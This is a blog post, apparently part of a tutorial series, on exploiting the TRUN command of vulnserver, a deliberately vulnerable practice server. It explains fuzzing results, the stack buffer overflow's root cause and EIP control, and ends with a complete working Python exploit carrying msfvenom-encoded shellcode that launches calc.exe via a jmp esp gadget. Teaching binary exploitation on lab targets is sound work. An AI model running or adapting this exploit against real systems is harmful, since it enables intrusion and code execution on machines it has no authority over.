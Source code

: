 ```yaml
---
layout: post
title:  "Vulnserver exploitation series :: TRUN (Vanilla EIP overwrite)"
date:   2021-07-24
categories: exploit
---
```





## Introduction



In this series of blog posts (Vulnserver exploitation series), I will be exploring an application named [**vulnserver**](https://github.com/stephenbradshaw/vulnserver).

This application is a perfect target to practice binary exploitation and fuzzing on Windows platforms.

To interact with the server, we can use "netcat", and as seen below, the server supports 14 commands:

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210720010409790.png)



After fuzzing the server, it was possible to find out the vulnerable commands. Below are the results:

| #    | Command | State          |
| ---- | ------- | -------------- |
| 1    | HELP    | Safe           |
| 2    | STATS   | Safe           |
| 3    | RTIME   | Safe           |
| 4    | LTIME   | Safe           |
| 5    | SRUN    | Safe           |
| 6    | TRUN    | **Vulnerable** |
| 7    | GMON    | **Vulnerable** |
| 8    | GDOG    | Safe           |
| 9    | KSTET   | **Vulnerable** |
| 10   | GTER    | **Vulnerable** |
| 11   | HTER    | **Vulnerable** |
| 12   | LTER    | **Vulnerable** |
| 13   | KSTAN   | Safe           |
| 14   | EXIT    | Safe           |



In this blog post, I'll cover the TRUN command.



## Crashing the server



The TRUN command is vulnerable to a stack-based buffer overflow. After sending a large buffer, the server crashes, and the EIP gets overwritten:

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210705011004916.png)



Stack layout after the crash:

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210705011409777.png)





## Root cause of the vulnerability



The server checks if the message starts with `"TRUN "` and allocates a buffer with 3000 bytes:

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210705014409517.png)



Then it checks if there is a `"."` in the received message, and if it does, it copies 3000 bytes to the allocated buffer:

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210705014757348.png)



Next, it calls `_Function3`, which copies the 3000 bytes to a smaller buffer, causing a stack-based buffer overflow:

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210705015107553.png)



## Controlling the instruction pointer



After finding what was the offset to overwrite the instruction pointer (EIP) value, it was possible to set it to the arbitrary value of `42424242` just by sending the right amount of bytes.

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210705015416937.png)



Since Data Execution Prevention (DEP) wasn't enabled and ESP points to the data immediately past the arbitrary EIP value (42424242) on the stack, and because of that, overwriting the instruction pointer (EIP) with an instruction that jumps back to the stack and starts executing arbitrary shellcode is a **valid** option.



## Exploitation



As seen below, by overwriting the instruction pointer (EIP) with an "**jmp esp**" instruction, the server executed an arbitrary shellcode that creates a new "calc.exe" process:

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210719162155468.png)



Full exploit code:

```python
#!/usr/bin/env python3
import socket
import sys

def exploit(ip, port):
    # msfvenom -p windows/exec -a x86 --platform windows CMD=calc.exe -b '\x00\x0a\x0d' -f python -e x86/xor_dynamic
    shellcode =  b""
    shellcode += b"\xeb\x23\x5b\x89\xdf\xb0\xed\xfc\xae\x75\xfd\x89\xf9"
    shellcode += b"\x89\xde\x8a\x06\x30\x07\x47\x66\x81\x3f\xb1\xd9\x74"
    shellcode += b"\x08\x46\x80\x3e\xed\x75\xee\xeb\xea\xff\xe1\xe8\xd8"
    shellcode += b"\xff\xff\xff\x17\xed\xeb\xff\x95\x17\x17\x17\x77\x9e"
    shellcode += b"\xf2\x26\xd7\x73\x9c\x47\x27\x9c\x45\x1b\x9c\x45\x03"
    shellcode += b"\x9c\x65\x3f\x18\xa0\x5d\x31\x26\xe8\xbb\x2b\x76\x6b"
    shellcode += b"\x15\x3b\x37\xd6\xd8\x1a\x16\xd0\xf5\xe5\x45\x40\x9c"
    shellcode += b"\x45\x07\x9c\x5d\x2b\x9c\x5b\x06\x6f\xf4\x5f\x16\xc6"
    shellcode += b"\x46\x9c\x4e\x37\x16\xc4\x9c\x5e\x0f\xf4\x2d\x5e\x9c"
    shellcode += b"\x23\x9c\x16\xc1\x26\xe8\xbb\xd6\xd8\x1a\x16\xd0\x2f"
    shellcode += b"\xf7\x62\xe1\x14\x6a\xef\x2c\x6a\x33\x62\xf3\x4f\x9c"
    shellcode += b"\x4f\x33\x16\xc4\x71\x9c\x1b\x5c\x9c\x4f\x0b\x16\xc4"
    shellcode += b"\x9c\x13\x9c\x16\xc7\x9e\x53\x33\x33\x4c\x4c\x76\x4e"
    shellcode += b"\x4d\x46\xe8\xf7\x48\x48\x4d\x9c\x05\xfc\x9a\x4a\x7d"
    shellcode += b"\x16\x9a\x92\xa5\x17\x17\x17\x47\x7f\x26\x9c\x78\x90"
    shellcode += b"\xe8\xc2\xac\xe7\xa2\xb5\x41\x7f\xb1\x82\xaa\x8a\xe8"
    shellcode += b"\xc2\x2b\x11\x6b\x1d\x97\xec\xf7\x62\x12\xac\x50\x04"
    shellcode += b"\x65\x78\x7d\x17\x44\xe8\xc2\x74\x76\x7b\x74\x39\x72"
    shellcode += b"\x6f\x72\x17\xb1\xd9"

    buf = b""
    buf += b"TRUN ."
    buf += b"\x41" * 2006
    buf += b"\xaf\x11\x50\x62"    # 0x625011af jmp esp @ essfunc.dll
    buf += shellcode
    buf += b"\r\n"

    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(3)
        s.connect((ip, int(port)))
        s.send(buf)
        print("exploit sent!")
    except Exception as e:
        print(e)

def main():
    if len(sys.argv) != 3:
        print(f"usage: {sys.argv[0]} <ip> <port>")
        return

    ip = sys.argv[1]
    port = sys.argv[2]
    exploit(ip, port)

if __name__ == "__main__":
    main()
```




